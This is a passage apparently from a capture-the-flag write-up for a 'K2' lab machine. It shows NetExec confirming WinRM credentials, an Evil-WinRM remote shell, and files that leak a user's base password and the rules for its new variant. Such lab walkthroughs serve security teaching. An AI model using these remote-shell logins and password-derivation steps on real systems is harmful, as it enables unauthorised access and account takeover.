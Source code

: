 
```bash
:~/K2# nxc winrm K2Server.k2.thm -u r.bud -p 'vRMkaVgdfxhW!8'
WINRM       xx.xxx.xx.xxx  5985   K2SERVER         [*] Windows 10 / Server 2019 Build 17763 (name:K2SERVER) (domain:k2.thm) 
WINRM       xx.xxx.xx.xxx  5985   K2SERVER         [+] k2.thm\r.bud:vRMkaVgdfxhW!8 (Pwn3d!)
```

```bash
:~/K2# evil-winrm -i K2Server.k2.thm -u r.bud -p '**************'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\r.bud\Documents> dir


    Directory: C:\Users\r.bud\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/29/2024   x:xx PM            327 notes.txt
-a----        1/29/2024   x:xx PM            349 note_to_james.txt


*Evil-WinRM* PS C:\Users\r.bud\Documents> type notes.txt
Done:
1. Note was sent and James has already performed the required action. They have informed me that they kept the base password the same, they just added two more characters to meet the criteria. It is easier for James to remember it that way.

2. James's password meets the criteria.

Pending:
1. Give James Remote Access.
*Evil-WinRM* PS C:\Users\r.bud\Documents> type note_to_james.txt
Hello James:

Your password "rockyou" was found to only contain alphabetical characters. I have removed your Remote Access for now.

At the very least adhere to the new password policy:
1. Length of password must be in between 6-12 characters
2. Must include at least 1 special character
3. Must include at least 1 number between the range of 0-999
*Evil-WinRM* PS C:\Users\r.bud\Documents>
```
